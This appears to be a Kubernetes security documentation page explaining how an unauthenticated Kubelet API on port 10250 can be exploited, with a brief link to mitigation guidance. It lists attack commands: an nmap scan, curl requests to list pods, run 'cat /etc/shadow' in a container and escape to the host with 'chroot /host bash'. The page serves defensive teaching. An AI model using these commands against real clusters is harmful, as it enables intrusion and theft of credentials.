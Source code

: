 ```yaml
---
sidebar_position: 9
title: "Exposed Kubelet API"
description: "How an exposed Kubelet API can be exploited to execute commands on nodes and compromise Kubernetes clusters."
---
```


# Exposed Kubelet API

The **Kubelet API** is responsible for managing pods on each node in a Kubernetes cluster. If improperly secured, attackers can **execute commands on worker nodes, retrieve secrets, and gain full control over workloads**.

---

## Exploitation Steps: Gaining Access to the Kubelet API

An attacker scans the cluster network to identify an open **Kubelet API port (10250)**.

### Step 1: Scan for Open Ports

The attacker runs a network scan to discover exposed Kubelets:

```bash
nmap -p 10250 --open <cluster-ip-range>
```

### Step 2: Query the Kubelet API

If authentication is **not enforced**, the attacker lists running pods:

```bash
curl -k https://<kubelet-ip>:10250/pods
```

### Step 3: Execute Commands on a Node

If the Kubelet API allows unauthenticated execution, the attacker runs a command inside a pod:

```bash
curl -k -X POST "https://<kubelet-ip>:10250/run/<namespace>/<pod-name>/<container-name>" -d 'cmd=cat /etc/shadow'
```

### Step 4: Escalate Privileges

If the attacker gains access to a privileged container, they execute commands on the **host node**, leading to cluster-wide compromise:

```bash
curl -k -X POST "https://<kubelet-ip>:10250/run/default/root-container" -d 'cmd=chroot /host bash'
```

### Result

The attacker now has **remote code execution** on a Kubernetes worker node and can **compromise the entire cluster**.

---

## Mitigation Steps

To protect against **Kubelet API exposure**, follow the security best practices outlined in:

➡ **[Kubelet Security](/docs/best_practices/cluster_setup_and_hardening/node_security/kubelet_security)**

This guide covers techniques such as **disabling anonymous access, enforcing authentication, using RBAC to restrict API actions, and securing network access** to prevent unauthorized control over Kubelet APIs.

